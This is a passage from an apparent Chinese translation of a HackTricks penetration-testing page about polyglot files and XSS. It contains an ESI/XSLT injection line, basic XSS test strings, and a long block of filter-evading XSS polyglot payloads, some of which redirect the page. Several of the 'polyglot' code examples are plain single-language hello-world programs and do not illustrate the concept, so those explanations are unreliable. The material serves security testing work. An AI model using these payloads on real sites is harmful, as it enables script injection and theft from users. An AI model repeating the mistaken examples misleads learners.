- **绕过安全机制**：通过使用多语言文件，攻击者可以绕过安全机制，欺骗系统，执行未经授权的操作。
- **隐藏恶意代码**：多语言文件可以隐藏恶意代码，使其在不同的解释器中看起来是合法的文件。
- **执行远程代码**：通过利用多语言文件的特性，攻击者可以在目标系统上执行远程代码，从而获取对系统的控制权。

### 多语言文件的示例

以下是一些常见的多语言文件示例：

- **Polyglot HTML/JavaScript**：这种文件可以同时被解释为HTML和JavaScript代码，可以用于执行跨站脚本攻击（XSS）或其他恶意操作。
- **Polyglot XML/JavaScript**：这种文件可以同时被解释为XML和JavaScript代码，可以用于执行XXE（XML外部实体）攻击或其他恶意操作。
- **Polyglot PDF/JavaScript**：这种文件可以同时被解释为PDF和JavaScript代码，可以用于执行恶意操作或利用PDF阅读器的漏洞。
- **Polyglot JPEG/JavaScript**：这种文件可以同时被解释为JPEG和JavaScript代码，可以用于执行恶意操作或利用图像处理库的漏洞。

### 多语言文件的创建

创建多语言文件需要深入了解不同语言的语法和特性，以及目标系统的解释器行为。攻击者可以使用文本编辑器或特定的工具来创建多语言文件，并进行测试以确保其在不同的解释器中都能正常工作。

### 多语言文件的检测和防御

为了检测和防御多语言文件的攻击，可以采取以下措施：

- **文件验证**：对上传的文件进行验证，确保其符合预期的文件格式和规范。
- **解释器配置**：配置解释器以限制或禁止执行多语言文件。
- **安全补丁**：及时应用安全补丁，以修复解释器或相关库的漏洞。
- **安全训练**：对开发人员和系统管理员进行安全培训，提高对多语言文件攻击的意识和防御能力。

### 参考资料

- [Polyglot Files](https://en.wikipedia.org/wiki/Polyglot_(computing))
```markup
<xsl:value-of select="system-property('xsl:version')" /><esi:include src="http://10.10.10.10/data/news.xml" stylesheet="http://10.10.10.10//news_template.xsl"></esi:include>
```
# XSS

## 基本测试

XSS（跨站脚本）是一种常见的网络安全漏洞，攻击者可以通过注入恶意脚本来攻击网站的用户。以下是一些基本的XSS测试方法：

### 1. 简单的HTML注入

尝试在输入字段中插入HTML标签，如`<script>alert('XSS')</script>`，并观察是否成功执行。

### 2. 图像注入

尝试在图像标签的`src`属性中插入JavaScript代码，如`<img src="javascript:alert('XSS')">`，并检查是否触发了弹窗。

### 3. 链接注入

尝试在链接的URL中插入JavaScript代码，如`<a href="javascript:alert('XSS')">点击我</a>`，并验证是否成功执行。

### 4. 事件注入

尝试在事件处理程序中插入JavaScript代码，如`<button onclick="alert('XSS')">点击我</button>`，并检查是否触发了弹窗。

### 5. 输入字段注入

尝试在输入字段中插入JavaScript代码，如`<input type="text" value="javascript:alert('XSS')">`，并观察是否成功执行。

### 6. 脚本标签注入

尝试在脚本标签中插入JavaScript代码，如`<script>alert('XSS')</script>`，并验证是否触发了弹窗。

### 7. 注释标签注入

尝试在注释标签中插入JavaScript代码，如`<!-- <script>alert('XSS')</script> -->`，并检查是否成功执行。

### 8. CSS注入

尝试在CSS样式属性中插入JavaScript代码，如`<div style="background-image: url('javascript:alert('XSS')')">`，并观察是否触发了弹窗。

### 9. SVG注入

尝试在SVG标签中插入JavaScript代码，如`<svg onload="alert('XSS')">`，并验证是否成功执行。

### 10. 事件处理程序注入

尝试在事件处理程序中插入JavaScript代码，如`<div onmouseover="alert('XSS')">`，并检查是否触发了弹窗。

这些基本的XSS测试方法可以帮助您识别和验证网站中的XSS漏洞。请记住，在进行任何测试之前，始终获得合法的授权。
```markup
" onclick=alert() a="
'"><img src=x onerror=alert(1) />
javascript:alert()
```
## 多语言

Polyglot（多语言）是指一种文件或程序，可以被解释为多种不同的语言。在网络渗透测试中，多语言文件可以用于绕过安全措施，欺骗系统或执行恶意操作。以下是一些常见的多语言技术和示例。

### 1. Polyglot文件

Polyglot文件是一种可以被解释为多种语言的文件。这些文件通常具有多个文件扩展名，以便在不同的环境中被解释为不同的语言。例如，一个文件可以同时被解释为HTML和JavaScript。

以下是一个HTML和JavaScript的Polyglot文件示例：

```html
<html>
  <head>
    <script>
      alert("This is a polyglot file!");
    </script>
  </head>
  <body>
    <h1>Hello, World!</h1>
  </body>
</html>
```

### 2. Polyglot注释

Polyglot注释是一种可以被解释为多种语言的注释。这些注释通常包含特定语言的注释标记，以便在不同的环境中被解释为不同的语言。例如，一个注释可以同时被解释为C和JavaScript。

以下是一个C和JavaScript的Polyglot注释示例：

```c
#include <stdio.h>

int main() {
  // This is a polyglot comment!
  printf("Hello, World!\n");
  return 0;
}
```

### 3. Polyglot文件头

Polyglot文件头是一种可以被解释为多种语言的文件头。这些文件头通常包含特定语言的文件头标记，以便在不同的环境中被解释为不同的语言。例如，一个文件头可以同时被解释为Python和Bash。

以下是一个Python和Bash的Polyglot文件头示例：

```python
#!/usr/bin/env python
# This is a polyglot file!
print("Hello, World!")
```

### 4. Polyglot文件扩展名

Polyglot文件扩展名是一种可以被解释为多种语言的文件扩展名。这些文件扩展名通常包含特定语言的文件扩展名标记，以便在不同的环境中被解释为不同的语言。例如，一个文件扩展名可以同时被解释为Ruby和Perl。

以下是一个Ruby和Perl的Polyglot文件扩展名示例：

```ruby
#!/usr/bin/env ruby
# This is a polyglot file!
puts "Hello, World!"
```

### 5. Polyglot文件内容

Polyglot文件内容是一种可以被解释为多种语言的文件内容。这些文件内容通常包含特定语言的代码段，以便在不同的环境中被解释为不同的语言。例如，一个文件内容可以同时被解释为Java和PHP。

以下是一个Java和PHP的Polyglot文件内容示例：

```java
public class HelloWorld {
  // This is a polyglot file!
  public static void main(String[] args) {
    System.out.println("Hello, World!");
  }
}
```

Polyglot技术可以在渗透测试中发挥重要作用，因为它们可以绕过安全措施，欺骗系统或执行恶意操作。了解和利用多语言文件的特性可以帮助渗透测试人员更好地理解和评估目标系统的安全性。
```markup
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm( 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/--><svg/onload=/*<html/*/onmouseover=alert()//>
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg onload=/*<html/*/onmouseover=alert()//>
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>`
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">`
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks 云 ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 推特 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- 你在一家**网络安全公司**工作吗？想要在 HackTricks 中**宣传你的公司**吗？或者你想要**获取最新版本的 PEASS 或下载 HackTricks 的 PDF**吗？请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！

- 发现我们的独家 NFT 收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)

- 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)

- **加入** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass)，或者在 **Twitter** 上**关注**我 [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **通过向 [hacktricks 仓库](https://github.com/carlospolop/hacktricks) 和 [hacktricks-cloud 仓库](https://github.com/carlospolop/hacktricks-cloud) 提交 PR 来分享你的黑客技巧**。

</details>
